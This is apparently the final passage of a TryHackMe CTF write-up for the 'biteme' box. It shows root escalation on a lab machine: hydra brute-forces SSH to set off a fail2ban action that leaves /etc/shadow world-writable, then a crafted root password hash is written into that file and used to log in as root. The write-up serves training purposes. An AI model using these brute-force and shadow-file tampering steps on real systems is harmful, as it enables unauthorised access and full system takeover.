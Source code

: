 The permissions are as they should be. Now, to activate the **fail2ban** rule, we need to bruteforce **SSH** back on our attacking machine:

```zsh 
┌──(lassi㉿kali)-[~/tryhackme/biteme]
└─$ hydra -l fail2exploit -P /usr/share/wordlists/rockyou.txt ssh://10.10.21.12  
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-03-12 17:02:44
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.21.12:22/
``` 

The username (`-l`) and wordlist (`-P`) don't really matter here, as we're not trying to successfully bruteforce our way in anyway. Let's let it run for a while and then cancel with `Ctrl+C`.
Back on the victim machine, how are the `/etc/shadow` permissions now?

```zsh 
fred@biteme:~$ ls -lpah /etc/shadow
-rwxrwxrwx 1 root shadow 954 Nov 13 17:18 /etc/shadow
``` 

This means that we have full access to the file. There's multiple things we could do now, but a simple thing to do is to generate a new password for the `root` user:

```zsh 
fred@biteme:~$ openssl passwd -6 -salt xyz pwned
$6$xyz$5I4IoAWqNNcGCYvBCeIz0UZr5NoOPvvHrwR9B1AX7.1fYnHX3clTDW9YRVi3TYivXiJ8Mb8clrGt7.gTxZGXb1
``` 

And add the hash to `/etc/shadow` for the `root` user:

```zsh 
fred@biteme:~$ nano /etc/shadow
root:$6$xyz$5I4IoAWqNNcGCYvBCeIz0UZr5NoOPvvHrwR9B1AX7.1fYnHX3clTDW9YRVi3TYivXiJ8Mb8clrGt7.gTxZGXb1:18885:0:99999:7:::
daemon:*:18885:0:99999:7:::
bin:*:18885:0:99999:7:::
<snipped for space>
``` 

Now we can log in as the `root` user with our new password and read the root flag:

```zsh 
fred@biteme:~$ su -
Password: 
root@biteme:~# whoami
root
root@biteme:~# cat /root/root.txt
<flag removed for writeup>
``` 

A great box with a really interesting foothold. Thanks again to [fire015](https://tryhackme.com/p/fire015)!


